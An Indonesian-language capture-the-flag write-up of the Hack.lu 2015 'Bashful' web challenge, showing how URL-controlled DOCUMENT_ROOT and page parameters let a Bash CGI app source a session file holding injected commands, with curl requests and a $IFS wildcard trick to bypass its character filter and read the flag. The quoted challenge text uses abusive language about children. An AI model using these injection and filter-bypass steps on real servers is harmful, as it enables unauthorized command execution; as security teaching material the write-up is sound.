









# Hack.lu 2015 CTF: Bashful

----------
## Detail tantangan
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| Hack.lu CTF    | Bashful       | Web       | 200+50 |

*Deskripsi*
> "How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.
> 
> Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.

## Website
Terdapat tantangan berupa *website* yang menggunakan *server* Lighttpd CGI yang meng-*handle* *Bash script* untuk pemrosesan laman *website* tersebut. Lihat *source code* pada direktori `bashful`

*File-file* pada *source code* adalah:

	404.sh
	home.sh
	home.html
	index.sh

dengan tampilan halaman website:


ketika saya memasukkan kata `hack.lu` maka akan tampil _list_ seperti di:


namun ketika saya memasukkan kata `Hello world!` maka akan menambah daftar _list_ namun di-encode menjadi `Helloworld21`:


Kesimpulannya adalah teks apapun yang akan dikirim dan mengandung simbol, akan di-_encode_ terlebih dahulu dan karakter _space_ akan dieliminasi.

Lalu bagaimana untuk mengeksploitasinya? Mari kita analisa terlebih dahulu _source code_ yang diberikan.

## Session ID
Tantangannya berada di alamat `https://school.fluxfingers.net:1503/` yang kemudian akan di-redirect pada alamat yang sama dengan tambahan sebuah parameter `sessid` yang nilainya berupa alpha-numeric dengan panjang 60 karakter.

`https://school.fluxfingers.net:1503/?sessid=cdd01923820617eff78abd1fd7234f4a17b0f2adf78a7bdbdb6691b7148a`

Redirect di-handle oleh `index.sh` pada baris kode:

```bash
if [ ! -v sessid ]; then
    headers["Location"]="?sessid=$(head -c 32 /dev/urandom | xxd -ps)"
    flush_headers
    exit
fi
```

Parameter `sessid` wajib memiliki karakter alpa-numerik dan beberapa simbol (`a-zA-Z0-9.!$;?_`), dengan panjang tidak kurang dari 60 karakter. Jika kurang dari 60 karakter (contoh: `https://school.fluxfingers.net:1503/?sessid=cdd019238206`), maka akan menampilkan pesan:
> like... really?

Hal ini di-handle `index.sh` pada baris kode:

```bash
function filter_nonalpha {
    echo $(echo $1 | sed 's/[^a-zA-Z0-9.!$;?_]//g')
}

sessid=$(filter_nonalpha $sessid)
if [ -z $sessid ] || [ "${#sessid}" -lt 60 ]; then
    echo 'like... really?'
    exit
fi
```

Perlu diketahui bahwa setiap `sessid` disimpan ke dalam sebuah _file_ dengan nama _file_ yang sama dengan nilai `sessid`, yang disimpan pada direktori `/var/sessions` (lihat pada bagian **Variables** di bawah).

Sebagai contoh, saya memiliki `sessid` dengan nilai `da64bd2eb75f137a2fcf0ac614dc1d328943dadb61ff74c7d69ccd25fc45`, maka akan ada satu buah file pada `/var/sessions/da64bd2eb75f137a2fcf0ac614dc1d328943dadb61ff74c7d69ccd25fc45`.

Setelah diteliti lagi, teks yang kita kirimkan melalui _form_ (_hack.lu_, _Hello world!_, dsb.), ternyata disimpan pada _session file_ tersebut, dengan tambahan _delimiter_ karakter `#`: 

Contoh: Pada _form_, saya telah memasukkan 2 buah teks, yaitu `hack.lu` dan `Hello world!`. Setelah di-_encode_, maka hasilnya adalah:
`hack.lu#Helloworld21#`

Lihat pada baris kode:

```bash
if [ ! -z "$messages" ]; then
    echo -ne "" > $sessfile
    for msg in "${messages[@]}"; do
        echo -ne "$(filter_nonalpha $msg)#" >> $sessfile
    done
fi
```

Jadi, ketika kita mengganti nilai `sessid` kita dengan yang baru, maka teks yang telah kita kirimkan akan hilang karena _session file_ sudah berbeda dengan yang sebelumnya.

Mungkinkan ini celah untuk menginjeksikan sesuatu? Mari kita telusuri lebih lanjut.

## Variable
Terdapat beberapa variabel, seperti:

	SESSION_DIR
	DOCUMENT_ROOT
	REQUEST_METHOD
	DEBUG
	page
	sessid
	...
	
Dari variabel di atas, terdapat satu buah variabel menarik yaitu `DEBUG`. Ketika kita mencoba mengakses URL dengan tambahan parameter `DEBUG=1` seperti`/?DEBUG=1&sessid=da64bd[...]`, maka akan tampil seluruh _environment variables_ pada _server_ tersebut.



Setelah kita lihat nilai seluruh variabel, kita simpulkan dulu variabel yang paling potensi untuk bisa di-_exploit_:

| Variable      | Value      |
|:--------------|:-----------|
| DOCUMENT_ROOT | /var/www   |
| DEBUG         | 1          |
| sessid        | <60 chars> |

## Exploit
Sekarang kita akan coba mengubah variabel `DOCUMENT_ROOT` pada URL `/?DOCUMENT_ROOT=/var/www&DEBUG=1&sessid=da64b[...]`, maka akan dihasilkan halaman website yang sama, karena `DOCUMENT_ROOT` memang bernilai `/var/www`.

Namun, ketika kita mengubah `DOCUMENT_ROOT` menjadi nilai `/tmp` pada URL `/?DOCUMENT_ROOT=/tmp&DEBUG=1&sessid=da64b[...]`, maka akan terjadi kesalahan `500 - Internal Server Error`.



Hal tersebut terjadi karena mungkin saja _file_ utamanya, yaitu `index.sh` tidak ditemukan pada direktori `/tmp`. Kesimpulannya, `DOCUMENT_ROOT` benar-benar terbukti bisa diatur melalui URL.

Sekarang coba kita pikirkan, variabel apa yang dapat diatur agar dapat mengeksekusi sebuah _bash file_? Lihat pada _source code_:

```bash
file="$DOCUMENT_ROOT/$page.sh"
if [ ! -f $file ]; then
    >&2 echo "Can't load $file"
    file="$DOCUMENT_ROOT/404.sh"
fi
source $file
```

Dari _source code_ tersebut dapat disimpulkan bahwa variable `file` dihasilkan dari sejumlah variabel, yaitu `$DOCUMENT_ROOT/$page.sh`. Berarti kita dapat menggunakan gabungan parameter `DOCUMENT_ROOT` dan `page`, dengan contoh pada URL adalah `/?DOCUMENT_ROOT=/var/www&page=index&sessid=...`

### Injeksi
Kemudian kita perlu menginjeksikan _shell command_. Tentunya kita hanya dapat melakukannya melalui _form_ yang nantinya akan disimpan ke dalam sebuah _session file_ (`/var/sessions/<60-chars-session-id>`). Jadi dengan menggunakan parameter `DOCUMENT_ROOT` dan `page`, kita dapat mengeksekusi *session file* yang berisi *shell command* dengan menggunakan URL `/?DOCUMENT_ROOT=/var/sessions&page=6c6fd9[...]&sessid=6c6fd9[...]`.

Karena _session file_ memiliki teks dipisah dengan _delimiter_ `#`, maka kita akan coba mengeksekusi sebuah perintah `ls;`. Adanya `;` setelah perintah adalah sangat penting, gunanya mengakhiri perintah sebelum bertemu karakter _delimiter_ `#` yang dianggap sebuah komentar pada Bash.

Waktunya memasukkan perintah `ls;` pada _form_:



Ups! Perintah `ls;` menjadi `ls3B`. Karakter `;` ter-*encode*, ini menjadi tidak ada gunanya ketika dieksekusi. *Encoding* kemungkinan dilakukan oleh *browser*. Mari kita gunakan `curl`, namun sebelumnya kita perlu memiliki sebuah `sessid` baru untuk mengosongkan perintah yang tidak berguna tersebut.

	curl 'https://school.fluxfingers.net:1503/?sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8' --data 'msg=ls;'
	
*Magic!* Hasilnya sesuai dengan yang diharapkan.


Sekarang kita akan coba eksekusi *session file* yang memiliki *shell command* `ls;` tersebut, dengan menggunakan URL:	

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8&DEBUG=1&sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8
	
Ups! Terjadi kesalahan **500 - Internal Server Error**. Seperti kesalahan sebelumnya, ini terjadi karena *bash file* tidak ditemukan. File tersebut kita atur pada parameter `page`. Kita lihat lagi *source code*-nya:

```bash
file="$DOCUMENT_ROOT/$page.sh"
```

Ternyata *session file* harus memiliki ekstensi `.sh`, dalam kasus ini adalah `ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh`. 

Berhubung di `/var/sessions` saat ini hanya memiliki file dengan nama `ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8` (tanpa ekstensi`.sh`), maka kita harus buat terlebih dahulu dengan mengatur parameter `sessid` yang nilainya ditambahkan string `.sh` sebagai ekstensi:

	https://school.fluxfingers.net:1503/?sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh
	
Nah, sekarang *list* perintah `ls;` yang kita atur sebelumnya menjadi hilang, karena *session file* sudah berbeda dengan yang sebelumnya setelah ditambahkan ekstensi `.sh`.

Sekarang kita tambahkan *shell command* dengan menggunakan `curl` seperti sebelumnya dengan alamat baru:

	curl 'https://school.fluxfingers.net:1503/?sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh' --data 'msg=ls;'
	
Perintah `ls;` baru telah ditambahkan. Saatnya kita eksekusi pada URL:

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8&sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh
	
*Bump!* Sesuai yang diperkirakan, perintah tereksekusi dan menghasilkan sesuatu yang menarik:



Terdapat *file* dengan nama `flag`. Untuk membaca file `flag` tersebut, dapat menggunakan dua opsi metode, yaitu:

* Akses langsung file `flag` menggunakan URL `https://school.fluxfingers.net:1503/flag`. Bukan tantangan namanya jika mudahnya menggunakan metode ini, karena pasti akan menghasilkan **403 - Forbidden**. Skip! `:)`
* Injeksi *shell command* dengan menggunakan perintah `cat flag`.

Untuk metode injeksi *shell command* caranya sama dengan sebelumnya. Dengan menggunakan `curl` dan tentunya dengan `sessid` ditambah ekstensi `.sh` baru agar mengosongkan perintah sebelumnya:

	curl 'https://school.fluxfingers.net:1503/?sessid=2cac3786464ebcfd2bda52d82d7c649bf8d334af71073ebd1ff3bb7193e9.sh' --data 'msg=cat flag;'
	
Perlu diketahui, dengan mengirimkan perintah `cat flag;` akan sia-sia, karena perintah mengandung karakter spasi yang otomatis akan dipotong menjadi `cat` saja.

Bagaimana caranya agar dapat mengirimkan perintah `cat flag;` yang notabene mengandung spasi? Dengan mengganti spasi dengan karakter `%20` pun akan sia-sia, karena akan tetap menjadi `cat%20flag;`.

Beruntung ada variabel `$IFS` yang dapat disisipkan diantara perintah `cat` dan `file`. Namun setelah eksperimen, ternyata ada pengecualian terhadap penggunaan `$IFS`. Lihat tabel di bawah:

| Command       | Okay? | Reason                                                                                                    |
|:--------------|:------|:----------------------------------------------------------------------------------------------------------|
| `cat$IFSflag` | No    | *idk*                                                                                                     |
| `cat$IFS*`    | No    | Fungsi `filter_nonalpha` hanya mengijinkan `a-zA-Z0-9.!$;?_`                                              |
| `cat$IFS????` | Yes   | `?` merupakan *wildcard* yang akan mewakili *file* yang memiliki panjang nama sesuai jumlah banyaknya `?` |

Setelah tahu bahwa perintah `cat$IFS????` dapat digunakan, lanjutkan membuat *shell command* tersebut. Dengan menggunakan `curl` dan tentunya dengan `sessid` ditambah ekstensi `.sh` baru agar mengosongkan perintah sebelumnya:

	curl 'https://school.fluxfingers.net:1503/?sessid=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf.sh' --data 'msg=cat$IFS????;'



Kemudian eksekusi *shell command* tersebut pada URL:

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf&sessid=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf.sh
	
Hasilnya:



## Conclusion
*Flag*-nya adalah: `flag{as_classic_as_it_could_be}`

## Greets to
* Muhammad Abrar Istiadi
* Kesatria Garuda team

## Reference
* Internal field separator on Wikipedia ([link](https://en.wikipedia.org/wiki/Internal_field_separator))
* Bash wildcard: question mark and asterisk ([link](http://linuxg.net/bash-wildcards-question-mark-and-asterisk/))